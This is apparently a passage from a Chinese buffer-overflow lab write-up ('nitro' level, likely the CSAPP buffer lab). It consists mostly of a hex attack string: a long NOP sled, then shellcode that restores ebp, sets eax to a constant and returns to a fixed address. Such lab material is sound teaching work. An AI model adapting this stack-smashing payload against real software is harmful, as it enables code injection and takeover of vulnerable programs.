 8d 6c 24 28 b8 90 ac 98 68 68 15 8e 04 08 c3

### nitro 最终攻击序列

故，可得攻击序列为:

```asm
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
90 90 90 90
8d 6c 24 28
b8 90 ac 98
68 68 15 8e
04 08 c3 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
```